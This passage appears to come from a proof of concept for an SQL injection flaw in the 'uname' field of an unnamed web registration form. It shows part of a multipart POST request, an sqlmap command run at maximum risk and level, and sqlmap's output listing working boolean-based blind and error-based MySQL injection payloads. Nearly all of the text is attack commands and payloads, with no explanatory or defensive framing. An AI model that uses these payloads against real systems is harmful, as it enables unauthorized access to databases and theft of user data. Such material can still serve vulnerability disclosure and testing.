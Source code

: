 ```

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="submit"

Submit
-----------------------------358741317412787265312048716550--

---
```
+ `sqlmap -r request.txt -p uname --risk 3 --level 5 --dbms mysql --batch --current-db`

```
---
Parameter: MULTIPART uname ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: -----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="name"

test
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="uname"

testersin'||(SELECT 0x76794d63 WHERE 8027=8027 AND 6162=6162)||'
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="password"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="rpassword"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="submit"

Submit
-----------------------------358741317412787265312048716550--

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: -----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="name"

test
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="uname"

testersin'||(SELECT 0x79515248 WHERE 2650=2650 AND (SELECT 1470 FROM(SELECT COUNT(*),CONCAT(0x716b6b7671,(SELECT (ELT(1470=1470,1))),0x717a627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="password"

Test123!
-----------------------------358741317412787265312048716550
```